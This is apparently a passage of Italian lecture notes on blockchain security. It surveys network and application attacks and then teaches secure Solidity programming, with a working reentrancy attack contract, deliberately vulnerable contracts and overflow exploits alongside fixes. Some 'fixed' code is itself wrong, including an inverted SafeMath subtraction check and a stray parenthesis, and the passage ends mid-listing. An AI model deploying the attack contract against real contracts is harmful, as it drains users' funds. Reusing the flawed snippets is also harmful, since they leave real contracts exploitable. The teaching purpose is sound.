Poiché i nodi leggeri traggono la loro visione della blockchain dai nodi completi, quando un nodo completo viene compromesso, anche tutti i suoi nodi leggeri associati vengono compromessi. La concentrazione spaziale dei nodi completi all'interno di un AS o di un ISP li rende vulnerabili agli attacchi di routing come il dirottamento BGP. Un AS antagonista può dirottare il traffico per un AS target che ospita la maggior parte dei nodi dell'applicazione blockchain.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=8cm]{./Images/cap5/5.5.png}
\end{figure}

Trasmettendo percorsi di rete maliziosi tramite BGP, l'attaccante è in grado di reindirizzare il traffico da server di mining legittimi su una rete a server fasulli mascherata come originale. Questi server di mining fasulli hanno permesso ai clienti di continuare a estrarre criptovaluta ma non hanno mai ricevuto alcuna ricompensa per il lavoro svolto. Tutti i proventi dell'attività di mining sono invece andati direttamente verso i nodi fasulli dell'attaccante. Un sottoinsieme di miners è organizzato come un pool a cui fa capo un pool server, che sottopone dei lavori e restituisce reward. Il protocollo di comunicazione tra miners è \textbf{Stratum}, realizzato al di sopra di TCP e con messaggi in JSON. È stato dimostrato che dirottando meno di 100 prefissi BGP in Bitcoin, un aggressore può isolare fino al 50\% della capacità di hashing della rete, e che il 60\% di tutto il traffico Bitcoin attraversa solo tre ISP.

\vspace{5mm}

Il sistema peer-to-peer di Blockchain è anche vulnerabile a una forma di attacco nota come \textbf{Eclipse Attack}, in cui un gruppo di nodi dannosi isola i nodi vicini, compromettendo così il traffico in entrata e in uscita. In Bitcoin i nodi formano dei cluster, dove ogni peer è a conoscenza dell'indirizzo IP di tutti. Con un numero sufficiente di nodi compromessi in un cluster, si possono isolare i nodi onesti e modificarne la copia locale dello stato della blockchain, controllando il loro traffico in entrata e in uscita e fornendo loro informazioni false.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=10cm]{./Images/cap5/5.6.png}
\end{figure}

I nodi blu rappresentano i nodi onesti che memorizzano il vero stato della blockchain mentre i nodi rossi rappresentano i nodi maliziosi che formano un cluster attorno ai nodi blu. Se la connessione tra i nodi onesti è compromessa, i nodi dannosi possono inviare blocchi falsi ai nodi onesti e partizionarli dalla rete. Di conseguenza, i nodi onesti finiscono per avere una visione sbagliata dello stato della blockchain.

\vspace{5mm}

Uno degli attacchi più comuni è il \textbf{Distributed Denial of Service} (DDoS), che consiste nel tempestare di richieste un sistema o una sua parte fino a renderlo irraggiungibile. Nonostante sia un sistema peer-to-peer, blockchain è soggetta ad attacchi DDoS, manifestandosi in diversi modi. Il numero di transazioni per blocco che un'applicazione blockahin può elaborare in un dato tempo è limitato: un blocco Bitcoin ha la dimensione di 1 MB, mentre la dimensione media di una transazione è di circa 500 byte, consentendo in media circa 2.000 transazioni per blocco. Il tempo medio per il mining di un blocco è di circa 10 minuti. Pertanto, non si possono superare le 200 transazioni al minuto, e il totale dei peer attivi serviti dalla rete al piu non supera 200. Dati questi vincoli, il throughput è di 3-7 transazioni al secondo. 

Un avversario può sfruttare varie identità Sybil ed emettere diverse transazioni di "polvere" (ad esempio 0,001 BTC per transazione) tra le varie identità Sybil sotto il suo controllo. Introducendo un gran numero di transazioni di scarso valore in un breve periodo di tempo, la rete sarà congestionata e il servizio agli utenti legittimi della rete sarà negato. Un'altra forma di attacco DDoS viene eseguita presso i \texttt{mempool} delle criptovalute per aumentare la tariffa di mining.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=11cm]{./Images/cap5/5.7.png}
\end{figure}

In Bitcoin, l'utente A genera una transazione per l'utente B. La transazione viene archiviata nel pool di memoria insieme ad altre transazioni non confermate. Il minatore convalida le transazioni dal pool di memoria e calcola un blocco. Un blocco valido viene aggiunto alla blockchain.

Sebbene la dimensione del blocco sia limitata nelle criptovalute, la dimensione del pool non ha limiti. Più transazioni sono nel \texttt{mempool}, più è forte la concorrenza per accaparrarsi i miners. Per dare maggiore priorità alle proprie transazioni, gli utenti iniziano a pagare maggiori mining rewards, come incentivo per i miners. Un avversario potrebbe inondare i \texttt{mempool} con transazioni di polvere, portando gli utenti legittimi ad aumentare la commissione di mining così che le transazioni dell'attaccante non vengano minate.

La natura peer-to-peer alla base di una blockchain può essere sfruttata per creare visioni contrastanti del suo stato globale. I nodi dannosi possono intenzionalmente mascherare, falsificare o nascondere informazioni importanti che devono essere trasmesse attraverso la rete. L'\textbf{Attacco Finney} è una variante del double spending in cui un minatore ritarda la propagazione dei blocchi per spendere due volte la sua transazione.
\begin{enumerate}
    \item Il miner genera una transazione, computa un blocco e sceglie di non ritrasmettere il blocco.
    \item Genera un duplicato della sua transazione precedente e lo invia a un destinatario.
    \item Dopo che il destinatario accetta la transazione e consegna il prodotto, il miner pubblica il suo blocco precedente con la transazione originale.
    \item La transazione precedente diventa non valida e il minatore spende con successo il doppio.
\end{enumerate}
Nel pool di mining decentralizzati, tutti i partecipanti consumano elettricità e potenza della CPU per trovare un nonce il cui valore di un hash con il blocco è inferiore alla soglia di destinazione. Una volta trovata la soluzione valida, tutti i partecipanti vengono ricompensati in base al loro impegno. Nel \textbf{block withholding attack}, un miner compromesso risolve il puzzle crittografico della PoW, ma sceglie di non rivelarla al pool server. Ignari di ciò, il resto dei miner del pool sprecano le loro risorse per trovare il nonce e alla fine perdono la gara. Infatti il miner malizioso può condividere il nonce trovato con nodi in altri pool per una ricompensa maggiore. Una variante di questo attacco è il \textbf{Fork After Withholding} (FAW). Il funzionamento di un FAW attack è il seguente:
\begin{enumerate}
    \item Un miner dannoso si unisce a due pool di mining.
    \item Il miner calcola un PoW valido nel primo pool.
    \item Trattiene la soluzione e pubblica il blocco solo quando anche il secondo pool pubblica il blocco.
    \item La rete risolve la fork selezionando un blocco tra i due.
    \item Il minatore dannoso viene ricompensato in entrambi i casi.
\end{enumerate}
Se l'attacco FAW viene lanciato tra due o più pool di pool, quello più grande vincerà sempre nel caso di competizione. Pertanto, l'attacco FAW è più redditizio del selfish mining e del block withholding attack. Nelle blockchain permissioned, se l'avversario controlla la replica primaria, può trattenere blocchi e transazioni per compromettere il sistema e ritardare l'elaborazione delle transazioni.

\vspace{5mm}

Un altro attacco associato coinvolge il ritardo del consenso: un utente malintenzionato può iniettare falsi blocchi per aggiungere latenza o impedire ai peer di raggiungere il consenso, propagando blocchi obsoleti o transazioni doppie. Nelle blockchain private basate su PBFT, un avversario può causare un ritardo del consenso anche se controlla un basso numero di repliche (meno del 33\%). Dei nodi Sybil possono anche inviare firme fasulle alle altre repliche durante la fase di \texttt{prepare} e \texttt{commit}. Poiché ogni replica è tenuta a verificare le firme, si ha un sovraccarico aggiuntivo. Se si continua a inviare tali firme, è possibile rallentare o bloccare il completamento della fase di commit. La replica primaria non riceverà il numero di approvazioni richiesto per la verifica della transazione. 

Ogni blocco memorizza un timestamp che rappresenta il tempo approssimativo della sua creazione. In Bitcoin, ad esempio, un nodo rifiuta un blocco se il suo timestamp supera il tempo di rete di 120 minuti. A tale scopo, i full nodes mantengono un contatore interno che denota l'ora della rete che viene sincronizzato mediate un algoritmo di sincronizzazione interna. Un attaccante con nodi Sybil può rallentare il tempo di rete di un nodo target, inviandogli timestamp variabili fasulli. Ciò può portare a una differenza tra il tempo di blocco e il contatore del nodo maggiore di 120 minuti, con conseguente rifiuto del blocco e di tutti quelli successivi. Il nodo target alla fine viene isolato.

\subsection{Attacchi alle applicazioni}
Le blockchain pubbliche hanno una nozione debole di anonimato e forniscono accessibilità ai dati aperti al pubblico. L'analisi della blockchain pubblica, detta \textbf{block ingestion}, può rivelare informazioni utili ad un avversario, e potrebbe non essere desiderabile per un'applicazione o per i suoi utenti. Nelle blockchain, una volta che una transazione è stata approvata, non può essere annullata. Ciò ha portato a varie attività di trugga irreversibili online, in cui gli utenti sono stati indotti a inviare denaro. L'assenza di un'autorità centrale rende più difficile denunciare la frode e aspettarsi il rimborso.

Nelle criptovalute, il \textbf{double spending} si riferisce all'uso di una transazione due o più volte, firmando la stessa transazione con una chiave privata e inviandola a due diversi destinatari. Poniamo l'esempio di un compratore che ha la transazione con ID 537704 nel suo saldo. Usandola come input, genera due transazioni per pagare due venditori. Quando un miner interroga il \texttt{mempool}, può selezionare una delle due per creare un nuovo blocco incluso in un ramo della catena accettata. L'altra transazioni è contenuta in un blocco rigettato, pertanto il suo venditore non vedrà corrisposto il pagamento.

Il cryptojacking è una forma di attacco che viene lanciata su servizi
web e cloud per eseguire illegalmente PoW, senza che l'utente ne sia consapevole o dia il proprio consenso, per criptovalute basate su blockchain permissionless. Il cryptojacking consiste nel rubare le risorse di elaborazione dai dispositivi delle loro vittime. Combinando tutte queste risorse, gli hacker sono in grado di competere con sofisticate operazioni di cryptomining senza gli elevati costi associati.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=8cm]{./Images/cap5/5.8.png}
\end{figure}

Un avversario può compromettere un computer in vario modo come facendo clic su un link
dannoso in un'e-mail, e caricare il codice di cryptomining direttamente sul computer
vittima. Il codice di cryptomining può ricevere richieste di lavoro di mining e svolgerle, rallentando
le elaborazioni sulla macchina vittima. Il frutto di tali elaborazioni sono blocchi validati che
vengono inseriti nella blockchain, e le relative reward sono girate all’attaccante. Un esempio è rappresentato
dal CoinHive malware.

Laddove le credenziali, come le chiavi, associate ai peer nel sistema
sono archiviate in un portafoglio digitale, l'attacco "furto del
portafoglio" diventa particolarmente critico e probabile. In Bitcoin, il portafoglio viene archiviato di default non
crittografato, consentendo a un avversario di apprendere le
credenziali associate e quali transazioni esso ha emesso. Anche quando protetto in modo sicuro
sull'host, attacchi alla macchina ospitante consentirà all’avversario di rubarlo. Sussistono molti servizi di terze parti che
consentono l'archiviazione di portafogli,
anche questi servizi possono essere
compromessi e i relativi portafogli
esposti a un avversario.

Un problema ben noto nelle cryptovalute
basate su Blockchain è l'esposizione e il
furto di chiavi private. Se l'aggressore acquisisce la chiave
privata di un utente, può firmare e
generare una nuova transazione al
suo posto, spendendo il suo saldo.
Le blockchain pubbliche dispongono di applicazioni client open
source che consentono agli utenti di connettersi alla rete. Nel tempo
vengono rilasciate nuove versioni del software, implementando
nuove regole e aggiornamenti, o patch per risolvere vulnerabilità.

Non tutti i nodi scaricano la
versione appena rilasciata,
ma continuano a usare il
vecchio software e
rimangono esposti alle sue
vulnerabilità.
Per l'adozione del client di Bitcoin nel 2018, solo il 36,28\% dei nodi utilizza la versione più aggiornata e immune agli attacchi DDoS.
Il codice open source può essere sfruttato da un avversario per
rilasciare un nuovo aggiornamento con codice dannoso. Se un
utente installa il software, può fornire l'accesso all'attaccante che
può lanciare vari attacchi e ghermire dati sensibili dell’utente.

Nuove applicazioni sono realizzate sfruttando un apposito linguaggio
di programmazione, e caratterizzati da una serie di vulnerabilità e
creano una nuova superficie di attacco.
Un certo numero di progetti hanno
identificato la sicurezza degli smart
contract come un'esigenza del mercato e
hanno proposto soluzioni per l'audit e la
revisione degli smart contract mediante la
loro analisi statica. La maggior parte delle vulnerabilità può essere scovata in questo modo.

\section{Programmazione sicura di Smart Contracts}
La maggior parte delle vulnerabilità che vengono esposte sono errori software o pratiche di programmazione scorrette che è importante saper riconoscere per evitare. Esistono veri e proprio db dove sono salvate le vulnerabilità più conosciute che durante la compilazione del codice sollevano dei warning per avvisare lo sviluppatore della vulnerabilità. Vedremo le vulnerabilità nei due linguaggi più diffusi per la scrittura di smart contract, Solididy e Go lang. 

\subsection{Vulnerabilità in Solidity}
Una delle caratteristiche degli smart contract di Ethereum è la possibilità di chiamare e utilizzare il codice di altri contratti esterni, e ciò richiede una chiamata esterna. Queste chiamate esterne possono essere dirottate dagli aggressori per eseguire ulteriore codice (cioè una funzione di fallback), comprese le chiamate in sé stesso. Così l'esecuzione del codice "rientra" nel contratto. Questa è una vulnerabilità di rientro dello smart contract. Può verificarsi se si verifica una catena di chiamate in loop tra due contratti. Vediamo un contratto scritto in Solidity:
\begin{lstlisting}[language=Solidity]
contract EtherStore {
    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;
    
    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdrawFunds(uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        //limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        //limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
}
\end{lstlisting}
Gli attributi dichiarati in questo contratto sono:
\begin{itemize}
    \item \texttt{withdrawalLimit} che rappresenta il limite di prelievo;
    \item \texttt{lastWithdrawTime} e \texttt{balances} che sono dichiarate come mappe, ovvero coppie chiave-valore di elementi, che in questo caso hanno l'indirizzo come chiave e un interno senza segno a 256 bit come valore.
    \item \texttt{msg}, non esplicitamente dichiarato ma passato dal sistema allo smart contract: è il messaggio che contiene la transazione.
\end{itemize}
Il limite è fisso per ogni utente quindi viene utilizzato un valore intero. Invece ogni utente avrà l'ultima data del prelievo diversa per cui viene utilizzato il mapping chiave-valore.
Le funzioni invece sono:
\begin{itemize}
    \item \texttt{depositFunds()}, che si occupa di depositare fondi. La parola chiave \texttt{payable} indica che la funziona può ricevere Ether mentre viene chiamata, ovvero che il chiamante invia criptovaluta (in questo caso dal suo wallet al wallet dello smart contract). Utilizzando la parola \texttt{payable} non devo inserire l'argomento nella firma della funzione. 
    \item \texttt{withdrawFunds()}, che serve a prelevare. La parola chiave \texttt{require} funziona come \texttt{assert} in altri linguaggi. Controlla che il saldo associato al sender sia sufficiente, che la richiesta non superi il limite, e controlla che l'operazione di prelievo supera una settimana rispetto all'ultima effettuata.
\end{itemize}
La vulnerabilità si trova nella riga:

\texttt{require(msg.sender.call.value(\_weiToWithdraw)());}

Ma in cosa consiste questa vulnerabilità? Per scoprirlo vediamo un contratto malizioso:

\begin{lstlisting}[language=Solidity]
import "EtherStore.sol"

contract Attack {
    EtherStore public etherStore;
    //initialise the etherStore variable with the contract address
    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }
    
    function pwnEtherStore() public payable {
        //attack to the nearest ether
        require(msg.value >= 1 ether);
        //send eth to the depositFunds() function
        etherStore.depositFunds.value(1 ether)();
        //start the magic
        etherStore.withdrawFunds(1 ether);
    }
    
    function collectEther() public {
        msg.sender.transfer(this.balance);
    }
    
    //fallback function - where the magic happens
    function () payable {
        if (etherStore.balance > 1 ether) {
            etherStore.withdrawFunds(1 ether);
        }
    }
}
\end{lstlisting}

\begin{itemize}
    \item Il contratto ha un costruttore, quindi una funzione di inizializzazione del suo stato: gli passo un indirizzo di un wallet e lo istanzio come parametro del contratto.
    \item Nella funzione \texttt{pwnEtherStore}, che è \texttt{payable}, controllo se il valore della transazione è maggiore di 1 ether, e nel caso deposito 1 ether nel contratto legittimo. Dopodiché faccio un prelievo di 1 ether. \item La funzione \texttt{collectEther()} quando viene invocata trasferisce il saldo (il balance è quello del contratto, dato che ogni contratto ha una criptovaluta memorizzata al suo interno).
    \item In Solidity, per invocare uno smart contract devo conoscerne la firma, ovvero ho bisogno di dire allo smart contract quale funzione sto chiamando. Normalmente è possibile invocare un contratto sia senza specificare una funzione, che specificando il nome di una funzione. Se la funzione non è presente, viene invocata una funzione di fallback.
    \item La funzione di fallback è \texttt{payable}, quindi ha un costo. Se la vittima che invoca questa funzione ha ancora delle criptovalute nel wallet, allora prelevo 1 ether. 
    \item La funzione \texttt{depositFunds()} del contratto \texttt{etherStore} verrà chiamata con un valore di 1 ether (e molto gas). Il mittente (\texttt{msg.sender}) sarà il contratto dannoso, il cui balance è 1 ether. Il contratto dannoso chiamerà quindi la funzione \texttt{drawFunds()} del contratto \texttt{etherStore} con un parametro di 1 ether. Questo soddisferà tutti i requisiti della funzione e il contratto \texttt{etherStore} invierà quindi 1 ether al contratto dannoso.
    \item L'ether inviato al contratto dannoso eseguirà quindi la funzione di fallback. Siccome un solo ether è stato prelevato (il saldo totale del contratto \texttt{etherStore} era di 10 ether ed ora è di 9 ether), la condizione dell'if è soddisfatta. La funzione di fallback quindi chiama di nuovo la funzione \texttt{withdrawFunds()} di \texttt{etherStore} è rientra nel contratto \texttt{etherStore}. Nella seconda chiamata a \texttt{withdrawFunds()} il saldo dell'utente è ancora 1 ether perché la riga
    
    \texttt{17.   balances[msg.sender] -= \_weiToWithdraw;}
    
    non è stata ancora eseguita. Anche la riga successiva non è stata eseguita, quindi abbiamo superato tutti i requisiti e viene prelevato un altro ether.
    \item In questo modo il contratto dannoso viene chiamato (e quindi viene chiamata la funzione di fallback) fin quando il balance non è stato azzerato. Dopodiché l'if della fallback function non sarà soddisfatto è il controllo tornerà al chiamante che imposterà la variabile \texttt{lastWithdrawalTime} e terminerà l'esecuzione.
\end{itemize}
Il risultato finale è che l'attaccante ha ritirato tutti gli Ether dal contratto \texttt{etherStore} istantaneamente con una singola transazione. Esistono numerose tecniche per evitare potenziali vulnerabilità di rientro negli smart contract:
\begin{enumerate}
    \item utilizzare la funzione \texttt{transfer()} al posto di quella di \texttt{send()} quando si invia ether a contratti esterni, che invia solo 2300 gas che non sono sufficienti per chiamare un altro contratto (ovvero reinserire il contratto di invio);
    \item assicurarsi che tutta la logica che cambia le variabili di stato avvenga prima che l'ether venga inviato dal contratto. Nell'esempio \texttt{etherStore}, le righe 17 e quella successiva di \texttt{EtherStore.sol} devono essere inserite prima. È buona norma inserire qualsiasi codice che esegua chiamate esterne a indirizzi sconosciuti come ultima operazione in una funzione, secondo il \textit{check-effects-interactions} pattern;
    \item introdurre un mutex, così da bloccare il contratto durante l'esecuzione del codice, impedendo le chiamate di rientro.
\end{enumerate}
La vulnerabilità è dovuta sia al fatto che Solidity ha il meccanismo di fallback, sia al fatto che quando in Ethereum ho un indirizzo, non distinguo se questo indirizzo appartiene ad un utente o ad uno smart contract. 
Un esempio del \textit{check-effects-interactions} pattern è il seguente:
\begin{lstlisting}[language=Solidity]
contract ChecksEffectsInteractions {
    mapping(address => uint) balances;
    function deposit() public payable {
        balances[msg.sender] = msg.value;
    }
    function withdraw(uint amount) public {
        require(balances[msg.sender] >= amount);
        balances[msg.sender] -= amount;
        msg.sender.transfer(amount);
    }
}
\end{lstlisting}
La nuova implementazione dello smart contract è la seguente:
\begin{lstlisting}[language=Solidity]
contract EtherStore {
    //initialize the mutex
    bool reEntrancyMutex = false;
    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;
    
    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdrawFunds(uint256 _weiToWithdraw) public {
        require(!reEntrancyMutex);
        require(balances[msg.sender] >= _weiToWithdraw);
        //limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        //limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
        //set the reEntrancy mutex before the external call
        reEntrancyMutex = true;
        (msg.sender.transfer(_weiToWithdraw);
        //release the mutex after the external call
        reEntrancyMutex = false;
    }
}
\end{lstlisting}
La Ethereum Virtual Machine (EVM) specifica i tipi a dimensione fissa per gli interi con un intervallo limitato di rappresentazione. Un \texttt{uint8} può memorizzare solo numeri nell'intervallo [0,255]. Il tentativo di memorizzare 256 in un \texttt{uint8} risulterà in 0. Se non si fa attenzione, possono sopraggiungere problemi se l'input dell'utente non è controllato e vengono eseguiti calcoli che risultano in numeri che si trovano al di fuori dell'intervallo di rappresentazione del tipo della variabile che li memorizza:
\begin{itemize}
    \item \textbf{Underflow} - sottraendo 1 ad una variabile \texttt{uint8} che memorizza 0 si otterrà il numero 255.
    \item \textbf{Overflow} - aggiungendo 257 a una variabile di tipo \texttt{uint8} che attualmente ha un valore zero si otterrà il numero 1.
    \item Aggiungendo 2\textsuperscript{8} = 256 a una variabile di tipo \texttt{uint8} non ha alcun effetto di modifica del valore memorizzato.
\end{itemize}
Questi tipi di vulnerabilità consentono agli attaccanti di utilizzare in modo improprio il codice e creare flussi logici imprevisti. Ad esempio questo contratto è progettato per agire come un salvadanaio a tempo, in cui gli utenti possono depositare Ether e il deposito sarà bloccato per almeno una settimana. L'utente può estendere il tempo per più di una settimana se lo desidera, ma una volta depositato può essere certo che il proprio ether sia bloccato in modo sicuro per almeno una settimana.

\begin{lstlisting}[language=Solidity]
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;
    
    function deposit() public payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = now + 1 weeks;
    }
    
    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }
    
    function withdraw() public {
        require(balances[msg.sender] > 0);
        require(now > lockTime[msg.sender]);
        msg.sender.transfer(balances[msg.sender]);
        balances[msg.sender] = 0;
    }
}
\end{lstlisting}
Il valore della variabile \texttt{lockTime} ha visibilità pubblica. Un attaccante può sfruttare l'overflow per aprire il salvadanaio. Può passare come argomento di \texttt{increaseLockTime()} il numero 2\textsuperscript{256} - \texttt{userLockTime}, e la somma tra i due valori causerebbe un overflow, resettando \texttt{lockTime[msg.sender]} a 0. L'attaccante a questo punto può chiamare semplicemente la funzione di prelievo per ottenere la ricompensa.

Vediamo un altro esempio: questo contratto è un token che consente agli utenti di trasferire Ether mediante la funzione \texttt{transfer()}.
\begin{lstlisting}[language=Solidity]
pragma solidity ^0.4.18;
contract Token {
    mapping(address => uint) balances;
    uint public totalSupply;
    
    function Token(uint _initialSupply) {
        balances[msg.sender] = totalSupply - _initialSupply;
    }
    
    function transfer(address _to, uint _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }
    
    function balanceOf(address _owner) public constant returns (uint balance) {
        return balances[_owner];
    }
}
\end{lstlisting}
La vulnerabilità di questo contratto sta nella riga

\texttt{require(balances[msg.sender] - \_value >= 0);}

che può essere bypassata utilizzando un underflow. Si consideri infatti un utente che non ha alcun saldo e invoca la funzione \texttt{transfer()} con qualsiasi \texttt{\_value} diverso da zero. L'istruzione \texttt{require} in questione viene superata perche \texttt{balances[msg.sender]} è zero (è un \texttt{uint256}) quindi la sottrazione con un qualsiasi importo positivo (escluso 2\textsuperscript{256}) risulterà in un numero positivo a causa dell'underflow. Ciò vale anche per la riga successiva, dove al saldo verrà accreditato un valore positivo.

La soluzione per proteggersi dalle vulnerabilità di overflow/underflow consiste nell'usare o costruire librerie matematiche sicure come \texttt{SafeMath} di Open Zepplin.
\begin{lstlisting}[language=Solidity]
library SafeMath{
    function mul(uint256 a, uint256 b) internal pure returns (uint256) {
        if (a == 0) {
            return 0;
        }
        uint256 c = a * b;
        assert(c / a == b);
        return c;
    }
    function div(uint256 a, uint256 b) internal pure returns (uint256) {
        //assert(b>0); //Solidity automatically throws when dividing by a 0
        uint256 c = a / b;
        return c;
    }
    function sub(uint256 a, uint256 b) internal pure returns (uint256) {
        assert(b >= a);
        return a - b;
    }
    function add(uint256 a, uint256 b) internal pure returns (uint256) {
        uint256 c = a + b;
        assert(c >= a);
        return c;
    }
}
\end{lstlisting}
Il contratto \texttt{TimeLock} può essere quindi migliorato utilizzando questa libreria:
\begin{lstlisting}[language=Solidity]
contract TimeLock {
using SafeMath for uint //use the library for uint type
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;
    
    function deposit() public payable {
        balances[msg.sender] = balances[msg.sender].add(msg.value);
        lockTime[msg.sender] = now.add(1 weeks);
    }
    
    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] = lockTime[msg.sender].add(_secondsToIncrease);
    }
    
    function withdraw() public {
        require(balances[msg.sender] > 0);
        require(now > lockTime[msg.sender]);
        msg.sender.transfer(balances[msg.sender]);
        balances[msg.sender] = 0;
    }
}
\end{lstlisting}
Quando una quantità di Ether viene inviata ad un contratto, deve eseguire la funzione di fallback o un'altra funzione descritta nel contratto. Ci sono due eccezioni:
\begin{itemize}
    \item Qualsiasi contratto può implementare la funzione \texttt{selfdestruct(address)}, che rimuove tutto il bytecode dall'indirizzo del contratto e invia tutti gli Ether lì memorizzati all'indirizzo specificato dal parametro. Se l'indirizzo specificato è di uno smart contract, non viene chiamata nessuna delle sue funzioni (incluso il fallback). Qualsiasi attaccante può creare un contratto con una funzione \texttt{selfdestruct()}, inviargli Ether, chiamare \texttt{selfdestruct(target)} e forzare l'invio di Ether a un contratto target.
    \item Un utente può precaricare un nuovo contratto con Ether, cosicché dopo la sua creazione avrà un saldo diverso da zero.
\end{itemize}
Vediamo uno smart contract che rappresenta un semplice gioco che causerebbe situazioni di race conditions, in cui i giocatori inviano 0.5 Ether al contratto nella speranza di essere il giocatore che raggiunge per primo uno dei tre traguardi. Il primo a raggiungere il traguardo può rivendicare una parte dell'Ether accumulato quando il gioco è finito. Il gioco termina quando viene raggiunto il traguardo finale (10 Ether) e gli utenti possono richiedere i loro premi.
\begin{lstlisting}[language=Solidity]
contract EtherGame {
    
    uint public payoutMileStone1 = 3 ether;
    uint public mileStone1Reward = 2 ether;
    uint public payoutMileStone2 = 5 ether;
    uint public mileStone2Reward = 3 ether; 
    uint public finalMileStone = 10 ether; 
    uint public finalReward = 5 ether; 
    
    mapping(address => uint) redeemableEther;
    // users pay 0.5 ether. At specific milestones, credit their accounts
    function play() public payable {
        require(msg.value == 0.5 ether); // each play is 0.5 ether
        uint currentBalance = this.balance + msg.value;
        // ensure no players after the game as finished
        require(currentBalance <= finalMileStone);
        // if at a milestone credit the players account
        if (currentBalance == payoutMileStone1) {
            redeemableEther[msg.sender] += mileStone1Reward;
        }
        else if (currentBalance == payoutMileStone2) {
            redeemableEther[msg.sender] += mileStone2Reward;
        }
        else if (currentBalance == finalMileStone ) {
            redeemableEther[msg.sender] += finalReward;
        }
        return;
    }
    
    function claimReward() public {
        // ensure the game is complete
        require(this.balance == finalMileStone);
        // ensure there is a reward to give
        require(redeemableEther[msg.sender] > 0); 
        redeemableEther[msg.sender] = 0;
        msg.sender.transfer(redeemableEther[msg.sender]);
    }
 }
\end{lstlisting}

Il primo errore è che prima si dovrebbe trasferire l'ammontare di ether e poi settare a 0 il premio. Inoltre, il cattivo uso di \texttt{this.balance} nel codice può dare problemi se un malintenzionato potrebbe forzare il contratto mandando una piccola quantità di Ether(0.1 ad esempio) tramite la funzione \texttt{selfdestruct()} per impedire a futuri giocatori di raggiungere un traguardo. Infatti in questo modo non viene chiamata nessuna funzione ma la quantità di criptovaluta nel contratto aumenta, rendendo così impossibile il raggiungimento dei premi. In aggiunta, un attaccante potrebbe anche inviare forzatamente 10 Ether o più per spingere il saldo del contratto al di sopra di \texttt{finalMileStone}, così da bloccare per sempre tutti i premi nel contratto.

Per risolvere questa vulnerabilità, possiamo introdurre una variabile \texttt{depositedWei} per tenere traccia dell'ether depositato. In questo modo non abbiamo più riferimenti a \texttt{this.balance}, quindi risulta sicuro anche nel caso di chiamate a \texttt{selfdestruct()}. La logica implementata nello smart contract, quando possibile, dovrebbe evitare di dipendere dai valori esatti del saldo del contratto perché può essere manipolato artificialmente.

La versione fixata del contratto è:

\begin{lstlisting}[language=Solidity]
contract EtherGame {
    
    uint public payoutMileStone1 = 3 ether;
    uint public mileStone1Reward = 2 ether;
    uint public payoutMileStone2 = 5 ether;
    uint public mileStone2Reward = 3 ether; 
    uint public finalMileStone = 10 ether; 
    uint public finalReward = 5 ether; 
    uint public depositedWei;
    
    mapping (address => uint) redeemableEther;
    
    function play() public payable {
        require(msg.value == 0.5 ether);
        uint currentBalance = depositedWei + msg.value;
        // ensure no players after the game as finished
        require(currentBalance <= finalMileStone);
        if (currentBalance == payoutMileStone1) {
            redeemableEther[msg.sender] += mileStone1Reward;
        }
        else if (currentBalance == payoutMileStone2) {
            redeemableEther[msg.sender] += mileStone2Reward;
        }
        else if (currentBalance == finalMileStone ) {
            redeemableEther[msg.sender] += finalReward;
        }
        depositedWei += msg.value;
        return;
    }
    
    function claimReward() public {
        // ensure the game is complete
        require(depositedWei == finalMileStone);
        // ensure there is a reward to give
        require(redeemableEther[msg.sender] > 0); 
        redeemableEther[msg.sender] = 0;
        msg.sender.transfer(redeemableEther[msg.sender]);
    }
 }
\end{lstlisting}

Molto spesso in programmazione è conveniente non avere una struttura monolitica del software. Gli opcode \texttt{CALL} e \texttt{DELEGATECALL} sono utili per modulare il codice negli smart contract. Questi due codici operativi realizzano la chiamata di codice esterno ma hanno sostanziali differenze:
\begin{itemize}
    \item Le chiamate gestite dall'opcode \texttt{CALL} implicano che il codice venga eseguito nel contesto del contratto/funzione esterna. Ad esempio quando \texttt{D} invoca \texttt{CALL} su una funzione \textit{f} di \texttt{E}, \texttt{msg.sender} vista da \textit{f} è \texttt{D}.
    \item Il codice operativo \texttt{DELEGATECALL} si differenzia per il fatto che il codice viene eseguito nel contesto del contratto chiamante. Ad esempio quando \texttt{D} (la cui funzione è stata invocata dall'utente/contratto \texttt{C} invoca \texttt{DELEGATECALL} su \textit{f} di \texttt{E}, \texttt{msg.sender} vista da \textit{f} è \texttt{C}.
\end{itemize}
Questi due opcode consentono l'implementazione di librerie in cui gli sviluppatori possono creare codice riutilizzabile per contratti futuri. L'uso di \texttt{DELEGATECALL} può portare a un'esecuzione imprevista del codice e vulnerabilità. Infatti, sebbene sia sicuro e privo di vulnerabilità, il codice eseguito nel contesto di un'altra applicazione può determinare l'insorgere di nuove vulnerabilità. Vediamo un sempio con la libreria che genera la sequenza di Fibonacci e offre una funzione per ottenere il numero in posizione ennesima nella successione.


\begin{lstlisting}[language=Solidity]
// library contract - calculates fibonacci-like numbers;
contract FibonacciLib {
    // initializing the standard fibonacci sequence;
    uint public start;
    uint public calculatedFibNumber;
